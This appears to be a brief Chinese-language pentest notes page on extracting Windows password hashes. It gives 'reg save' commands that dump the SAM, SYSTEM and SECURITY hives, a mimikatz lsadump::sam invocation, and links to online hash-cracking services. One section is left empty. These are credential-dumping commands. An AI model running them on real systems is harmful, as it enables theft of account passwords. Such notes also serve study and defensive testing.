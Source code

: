 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash

### 1.注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
### 2. 通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```

### 3. 破解Hash获取明文密码
 
 见0x03 破解 Hash 
## 0x02 主机获取Hash

## 0x03 破解 Hash 
>强力推荐
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
